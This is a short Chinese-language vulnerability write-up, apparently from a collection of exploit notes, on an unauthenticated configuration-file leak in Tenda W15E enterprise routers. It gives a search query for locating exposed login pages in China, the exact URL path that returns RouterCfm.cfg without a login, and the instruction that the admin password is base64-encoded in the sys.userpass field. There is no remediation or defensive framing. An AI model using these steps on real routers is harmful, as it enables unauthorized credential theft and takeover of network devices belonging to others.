 # Tenda W15E企业级路由器 RouterCfm.cfg 配置文件泄漏漏洞

## 漏洞描述

Tenda 企业级路由器 RouterCfm.cfg 配置文件可在未授权的情况下被读取，导致账号密码等敏感信息泄漏

## 漏洞影响

<a-checkbox checked>Tenda 企业级路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Tenda | Login" && country="CN"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1642645426007-dae7304a-c0b0-4e24-b622-c4c4cae93f13.png)

访问路径

```go
/cgi-bin/DownloadCfg/RouterCfm.cfg
```

![img](../../../.vuepress/public/img/1642645500607-fbcda323-b8f8-406d-a77a-2cea223b9f77.png)

后台账号密码位于参数 `sys.userpass` base64解密后的字符

![img](../../../.vuepress/public/img/1642645610038-094fc290-4ccc-4579-8eef-cf7bee34344e.png)



